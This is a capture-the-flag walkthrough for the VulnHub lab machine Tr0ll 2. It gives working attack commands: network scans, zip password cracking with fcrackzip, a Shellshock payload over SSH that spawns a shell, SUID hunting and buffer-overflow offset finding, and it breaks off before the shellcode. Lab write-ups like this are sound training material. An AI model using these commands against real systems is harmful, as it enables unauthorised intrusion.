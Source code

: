 #### about : basics machines, shellshock in ssh , Bufferoverflows linux based 
[machine link](https://www.vulnhub.com/entry/tr0ll-2,107/)

## scanning

First we need to get the machine IP address , we can start with :
```bash
sudo netdiscover -i eth0
```
```                                                             
192.168.80.138  00:0c:29:c7:cb:ee      1      60  VMware, Inc.                                                             
```

now we have the target IP , so we can start scannig the services running :

```bash
nmap -A -T4 192.168.80.138 -oN nmap.intial

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 82:fe:93:b8:fb:38:a6:77:b5:a6:25:78:6b:35:e2:a8 (DSA)
|   2048 7d:a5:99:b8:fb:67:65:c9:64:86:aa:2c:d6:ca:08:5d (RSA)
|_  256 91:b8:6a:45:be:41:fd:c8:14:b5:02:a0:66:7c:8c:96 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: Host: Tr0ll; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Performing full port scan we got nothing new , so we can say scanning step has finished , we may need to run a UDP scan in case we reached a deadend with these services

## Enumeration

**Starting with the http service :**

- we only got a troll image , source code contains `Author: Tr0ll` , `Editor: VIM` we may use them latter
- run directory bruteforce :
```bash
ffuf -c -w /opt/large-wordlist.txt -u http://192.168.80.138/FUZZ

cgi-bin/                [Status: 403, Size: 290, Words: 21, Lines: 11]
index.html              [Status: 200, Size: 110, Words: 7, Lines: 7]
robots.txt              [Status: 200, Size: 346, Words: 1, Lines: 24]
server-status           [Status: 403, Size: 295, Words: 21, Lines: 11]
```
- at `robots.txt` we can find potential pages which we can add in a list and run ffuf again to see what is valid and what is rabbit hole:
```bash
ffuf -c -w wordlist.txt -u http://192.168.80.138/FUZZ 

keep_trying             [Status: 301, Size: 322, Words: 20, Lines: 10]
dont_bother             [Status: 301, Size: 322, Words: 20, Lines: 10]
ok_this_is_it           [Status: 301, Size: 324, Words: 20, Lines: 10]
noob                    [Status: 301, Size: 315, Words: 20, Lines: 10]
```
- checking all of them , all contain same image we can download the image and check if it is differs from page to another 

```bash
for i in `cat valid_from_robots.txt` ;do curl  http://192.168.80.138/$i/cat_the_troll.jpg -o $i.jpg ;done
```
```bash
ls -la *.jpg
-rw-r--r-- 1 kali kali 15873 Aug 22 22:16 dont_bother.jpg
-rw-r--r-- 1 kali kali 15831 Aug 22 22:16 keep_trying.jpg
-rw-r--r-- 1 kali kali 15831 Aug 22 22:16 noob.jpg
-rw-r--r-- 1 kali kali 15831 Aug 22 22:16 ok_this_is_it.jpg
```

one of them has different size , running strings on it we got at last line :
```
Look Deep within y0ur_self for the answer
```

- checking `http://192.168.80.138/y0ur_self/` we got listed directory with the file `answer.txt` inside which we can download 
- file `answer.txt` contains alot of base64 encoded strings with duplicates 
- clean results maybe it is a list we can use for bruteforcing other services
```bash
for i in `cat answer.txt ` ;do  echo $i | base64 -d  >> output.txt;done
cat output.txt | uniq > uniqued.txt
```
- now i think we got all what we can do for the http service 

**ftp-service**

- anonymous login is not allowed , we can try the username `Tr0ll` that we have found earlier in the web page source code and type it as password as well
- we have logged in successfully with `Tr0ll:Tr0ll` , we have found :
```bash
-rw-r--r--    1 0        0            1474 Oct 04  2014 lmao.zip
```
- we can download using `get lmao.zip`
- the file is protected and needs a password , we can bruteforce password from the list we have obtained eariler 

```bash
fcrackzip -D -p uniq_output.txt -u  lmao.zip
PASSWORD FOUND!!!!: pw == ItCantReallyBeThisEasyRightLOL
```
- now we can extract the zip file and we have found `noob` ssh private keys which we can use to login

## Foothold

```bash
ssh noob@192.168.80.138 -i noob 
```
we got output :
```
TRY HARDER LOL!
```
we can imagine the implemnetation in the machine is that when a user tries to ssh echo 'TRY HARDER LOL!' and exit  , and this echo line is a prefix in the Authorized_keys 
searching about that will find [here](https://unix.stackexchange.com/questions/157477/how-can-shellshock-be-exploited-over-ssh) talking about the exploitation of that

```bash
ssh noob@192.168.80.138 -i noob '() { :;}; echo MALICIOUS CODE'  
MALICIOUS CODE
TRY HARDER LOL!
```
spawn a shell :
```bash
ssh noob@192.168.80.138 -i noob '() { :;}; /bin/bash'
 ```
 and indeed :
 
 ![image](https://user-images.githubusercontent.com/67979878/186057505-3d9642e6-db7b-4c44-8c62-ad2530705792.png)

## Post Exploiation

- to have a stable shell remove the `command="echo TRY HARDER LOL!" ` From the `authorized_keys` then ssh normally
- let's search for juicy stuff to gain the root access , we find no sudo for our user so we can start with SUIDs

```bash
find / -type f -user root -perm -4000 -exec ls -l {} + 2>/dev/null
...
-rwsr-xr-x 1 root root         7273 Oct  5  2014 /nothing_to_see_here/choose_wisely/door1/r00t
-rwsr-xr-x 1 root root         8401 Oct  5  2014 /nothing_to_see_here/choose_wisely/door2/r00t
-rwsr-xr-x 1 root root         7271 Oct  5  2014 /nothing_to_see_here/choose_wisely/door3/r00t
...
```

- Trying to execute the 3 of the r00t binaries , one of them will lock us for 2 mins and the other one will do nothing. the third one accepts an input and prints it back
- we should think of BoF as it prints the string back . let's try large string

```bash
./r00t  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```
- we can download the bianry and examine it at our kali box 

```bash
scp -i noob noob@192.168.80.138:/nothing_to_see_here/choose_wisely/door2/r00t r00t
```

**Exploiting Buffer over flow [using EDB]**

- trying until length=300 the binary returns segmentation fault and the EIP is overwritten 

![image](https://user-images.githubusercontent.com/67979878/186060572-36e4562f-72de-496f-b24d-eb5c7cccccb9.png)

- now we want to get the **offset** until the EIP is overwritten :

```bash
# generate unique pattern
msf-pattern_create -l 300
msf-pattern_offset -q 6a413969 -l 300
[*] Exact match at offset 268
```
- confirm results :
```bash
 python3 -c 'print("A"*268+"BBBB")'
 ```
 Sending this output in EDB we got EIP=42424242 , so confirmed 

- we want to get the JMP ESP instruction address so we can inject our shellcode at 

## Privilege esclation
